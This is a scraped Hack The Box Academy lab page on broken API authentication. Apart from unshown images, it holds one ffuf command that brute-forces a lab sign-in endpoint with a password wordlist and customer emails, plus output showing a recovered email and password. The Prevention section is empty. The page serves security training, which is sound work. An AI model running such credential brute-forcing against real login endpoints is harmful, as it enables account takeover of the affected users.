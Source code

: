 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/268/section/3062
// Platform Version: V1
// Module ID: 268
// Module Name: API Attacks
// Module Difficulty: Medium
// Section ID: 3062
// Section Title: Broken Authentication
// Page Title: Hack The Box - Academy
// Page Number: 04
-->

# Broken Authentication

**Module Name:** API Attacks **Page Number:** 04

#### 

#### API ATTACKS

# Broken Authentication

## Improper Restriction of Excessive Authentication Attempts

### Scenario

![https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_1.png](https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_1.png)

![https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_2.png](https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_2.png)

![https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_3.png](https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_3.png)

![https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_4.png](https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_4.png)

![https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_5.png](https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_5.png)

![https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_6.png](https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_6.png)

![https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_7.png](https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_7.png)

![https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_8.png](https://academy.hackthebox.com/storage/modules/268/API2_2023_Broken_Authentication_Image_8.png)

``` shell-session
lbek@htb[/htb]$ ffuf -w /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt:PASS -w customerEmails.txt:EMAIL -u http://94.237.59.63:31874/api/v1/authentication/customers/sign-in -X POST -H "Content-Type: application/json" -d '{"Email": "EMAIL", "Password": "PASS"}' -fr "Invalid Credentials" -t 100

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.59.63:31874/api/v1/authentication/customers/sign-in
 :: Wordlist         : PASS: /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt
 :: Wordlist         : EMAIL: /home/htb-ac-413848/customerEmails.txt
 :: Header           : Content-Type: application/json
 :: Data             : {"Email": "EMAIL", "Password": "PASS"}
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid Credentials
________________________________________________

[Status: 200, Size: 393, Words: 1, Lines: 1, Duration: 81ms]
    * EMAIL: IsabellaRichardson@gmail.com
    * PASS: qwerasdfzxcv

:: Progress: [30000/30000] :: Job [1/1] :: 1275 req/sec :: Duration: [0:00:24] :: Errors: 0 ::
```

### Brute-forcing OTPs and Answers of Security Questions

### Prevention

# 

# 

#### Questions

####
